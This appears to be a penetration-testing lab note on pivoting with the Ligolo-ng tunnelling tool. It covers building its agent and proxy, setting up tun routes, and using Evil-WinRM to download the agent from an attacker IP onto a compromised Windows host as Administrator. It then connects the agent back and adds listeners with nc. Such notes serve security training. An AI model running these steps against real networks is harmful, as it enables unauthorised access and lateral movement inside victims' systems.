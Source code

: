 INIT

# Ligolo-ng
## Installation
``` 
git clone https://github.com/nicocha30/ligolo-ng
``` 
### Build the binary
#### Agent
``` 
go build -o agent cmd/agent/main.go
```
For Windows binary:
```
GOOS=windows go build -o agent.exe cmd/agent/main.go
```
#### Proxy
```
go build -o proxy cmd/proxy/main.go
``` 
For Windows binary:
```
GOOS=windows go build -o proxy.exe cmd/proxy/main.go
```
## Setup Ligolo Tunnel
### Setup `ligolo` interface
#### Interface 
```bash
sudo ip tuntap add user <username> mode tun ligolo
sudo ip link set ligolo u
```
#### Add route to interface (`ip route add`)
Add the internal route to the `ligolo` interface (create `ligolo` interface). The route should be to *the internal asset you don't have access to w/o the tunnel*
```bash
sudo ip route add 172.16.176.0/24 dev ligolo
```
### Get Ligolo Agent on box via winrm
```
iwr -uri 'http://192.168.45.176:8000/ligolo-agent-amd64.exe' -Outfile la.exe
```
### Execute Server/Proxy
```bash
┌──(root㉿kali)-[/home/trshpuppy/oscp/medtech]
└─# ligolo-proxy -selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC!
INFO[0000] Listening on 0.0.0.0:11601
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ /
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /
        /____/                          /____/

  Made in France ♥            by @Nicocha30!
  Version: dev

ligolo-ng »
```
#### Need to get certificate fingerprint (w/ `--selfcert`)
```bash
ligolo-ng » certificate_fingerprint
INFO[0325] TLS Certificate fingerprint for ligolo is: 396A4A3F9BD38596D5395243D94BDA56496FD212B966958B64BA74946995470A 
ligolo-ng »  
```
### Execute Agent
On agent, need to execute w/ `-accept-fingerprint`
```powershell
*Evil-WinRM* PS C:\Users\Administrator\Downloads> .\la.exe -connect 192.168.45.176:11601 -accept-fingerprint 396A4A3F9BD38596D5395243D94BDA56496FD212B966958B64BA74946995470A
la.exe : time="2025-06-26T14:37:16-07:00" level=info msg="Connection established" addr="192.168.45.176:11601"
    + CategoryInfo          : NotSpecified: (time="2025-06-2...8.45.176:11601":String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError

```
### Start session with Ligolo repl
In the repl, type `session` and then once the session is applied, type `start`
```bash
INFO[0644] Agent joined.                                 id=005056868c4f name="WEB02\\Administrator@WEB02" remote="192.168.176.121:58142"
ligolo-ng » session
? Specify a session : 1 - WEB02\Administrator@WEB02 - 192.168.176.121:58142 - 005056868c4f
[Agent : WEB02\Administrator@WEB02] » start
INFO[1358] Starting tunnel to WEB02\Administrator@WEB02 (005056868c4f) 
[Agent : WEB02\Administrator@WEB02] »  
```
#### Check interface/ route in the repl (`iflist`)
```bash
[Agent : WEB02\Administrator@WEB02] » iflist
┌───────────────────────────────────────────────────────────────────────────┐
│ Interface list                                                                
├───┬──────────────┬───────────────────────────────────┬────────────────────┤
│ # │ TAP NAME     │ DST ROUTES                                 │ STATE         
├───┼──────────────┼────────────────────────────────────────────┼────────────
│ 0 │ ligolosample │ 10.254.0.0/24,10.255.0.0/24                │ Pending - 2 
│ 1 │ ligolo       │ 172.16.176.0/24,172.16.190.0/24,fe80::/64  │ Active - 3 
│ 2 │ tun0         │ 192.168.45.0/24,192.168.176.0/24,fe80::/64 │ Active - 3 
└───┴──────────────┴────────────────────────────────────────────┴───────────────
Interfaces and routes with "Pending" state will be created on tunnel start.
[Agent : WEB02\Administrator@WEB02] »  
```







### Setup 
```bash
sudo ip tuntap add user <username> mode tun ligolo
sudo ip link set ligolo up
```
#### Set up Proxy
```
./proxy -autocert
``` 
##### Another option 
Setup w/ self cert and use `-laddr` to bypass firewall (potentially)
```
./proxy -selfcert -laddr 0.0.0.0:443
``` 
### Send the agent to the victim pivot host 
```
scp ./agent <user>@<pivotIP>:/absolute/path
```
OR
``` 
./agent -connect <AttackIP>:11601
``` 
in the ligolo c2 
``` 
ligolo-ng >> session ? Specify a session : 1 - <usr>@<hostname> - XX.XX.XX.XX:38000
``` 
once specified, we can see their configuration 
``` 
[Agent : <usr>@<hostname>] >> ifconfig 
┌────────────────────────────────────┐ 
│ Interface 0 │ 
├──────────────┬─────────────────────┤ 
│ Name │ lo │ │ Hardware MAC │ │ │ MTU │ 65536 │ │ Flags │ up|loopback|running │ │ IPv4 Address │ 127.0.0.1/8 │ │ IPv6 Address │ ::1/128 │ └──────────────┴─────────────────────┘ 
```
in a new terminal 
```
sudo ip route add 192.168.0.0/24 dev ligolo
```
back in the ligolo c2 
```
[Agent : <usr>@<hostname>] >> start
```
your good to go 
```
ping 192.168.110.55
```
### Agent Binding/Listening
in the ligolo session use the `listener_add` command 
``` 
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```
```
nc -lvnp 4321
```
remove with 
```
listener_list listener_stop 0
```
## remove ligolo interface 
```
sudo ip link delete ligolo
```

> [!Resources]
> - [Ligolo-ng Docs](https://docs.ligolo.ng/)